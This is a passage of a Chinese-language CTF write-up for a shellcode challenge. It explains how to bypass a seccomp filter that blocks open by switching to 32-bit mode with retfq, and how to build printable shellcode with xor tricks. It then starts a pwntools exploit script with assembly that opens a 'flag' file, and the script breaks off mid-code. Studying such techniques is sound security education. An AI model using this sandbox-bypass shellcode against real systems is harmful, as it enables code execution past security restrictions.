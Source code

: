 可以看到可以调用 write,read,mmap 但是没有 open，这个时候可以利用 fstat() 函数，该函数的 64 位系统调用号为 5，这个是 `open` 函数的 32 位系统调用号）

所以这道题的思路也就有了，利用 `retfq` 汇编指令进行 32 位和 64 位系统格式之间的切换，在 32 位格式下执行 `open` 函数打开 `flag` 文件，在 64 位格式下执行输入输出。

相关系统调用号可以参考[linux 系统调用号表\_linux 系统调用号\_Anciety 的博客-CSDN 博客](https://blog.csdn.net/qq_29343201/article/details/52209588)

这道题 ex 团长设计的还是难顶的，限制输入的 shellcode 必须是可打印字符，我们可以借助一些技巧从而构造汇编指令 (比如异或之类的算法操作)

可以用**shellcode 的艺术**中的**第三模块**中的总结用法，比如

```plain
xor al, 立即数
xor byte ptr [eax… + 立即数], al dl…
xor byte ptr [eax… + 立即数], ah dh…
xor dword ptr [eax… + 立即数], esi edi
xor word ptr [eax… + 立即数], si di
xor al dl…, byte ptr [eax… + 立即数]
xor ah dh…, byte ptr [eax… + 立即数]
xor esi edi, dword ptr [eax… + 立即数]
xor si di, word ptr [eax… + 立即数]
```

exp:

```plain
#coding:utf-8
from pwn import *
context.log_level = 'debug'
p = process('./shellcode')
# p = remote("nc.eonew.cn","10011")
p.recvuntil("shellcode: ")

append_x86 = '''
push ebx
pop ebx
'''
append = '''
/* 机器码：52 5a */
push rdx
pop rdx
'''

shellcode_x86 = '''
/*fp = open("flag")*/
mov esp,0x40404140

/* s = "flag" */
push 0x67616c66

/* ebx = &s */
push esp
pop ebx

/* ecx = 0 */
xor ecx,ecx

mov eax,5
int 0x80

mov ecx,eax
'''

shellcode_flag = '''
/* retfq:  mode_32 -> mode_64*/
push 0x33
```